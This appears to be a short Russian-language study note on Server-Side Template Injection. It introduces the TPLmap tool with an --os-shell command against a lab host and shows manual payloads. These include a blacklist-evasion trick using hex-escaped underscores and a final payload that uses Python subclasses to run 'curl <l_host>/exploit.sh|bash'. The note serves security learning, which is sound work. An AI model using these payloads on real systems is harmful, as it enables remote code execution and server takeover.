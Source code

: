 ## TPLmap
[epinna/tplmap (github.com)](https://github.com/epinna/tplmap)

TPLmap – инструмент на Python для автоматического выявления и эксплуатации уязвимостей Server-Side Template Injection. TPLmap имеет схожие с SQLmap настройки и флаги. Использует несколько различных техник и векторов (включая blind-инъекции), а также техники выполнения кода и загрузки/выгрузки произвольных файлов.

TPLmap имеет в своем арсенале техники для десятка разных движков и шаблонов. А также обладает некоторыми техниками для поиска eval()-подобных инъекций кода в Python, Ruby, PHP, JavaScript. В случае успешной эксплуатации открывает интерактивную консоль.
### Как использовать TPLmap?
- В командной строке введите команду:

```
./tplmap.py --os-shell -u http://www.hacktory.lab/
```

где,

- `./tplmap.py` – исполняемый файл программы;
- `-u --url http://www.hacktory.lab/` – URL цели;
- `--os-shell` – запускает псевдотерминал в целевой операционной системе для выполнения желаемых кодов и команд.

## Ручное тестирование [Server Side Template Injection Payloads](https://github.com/payloadbox/ssti-payloads)

![[Pasted image 20241209180532.png]]

Payload можно изменять для обхода защиты чёрного списка. А именно:
**Замена "_" на “\\x5f” и "." на "\\x2E" или объединение строк массивов. Пример:** 
```
{{"".__class__}}  
{{""["\x5f\x5fclass\x5f\x5f"]}}
```
```
{{''.__class__.__mro__[1].__subclasses__()[287]}}  
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[365]('curl <l_host>/exploit.sh|bash',shell=True,stdout=-1).communicate()}}
```
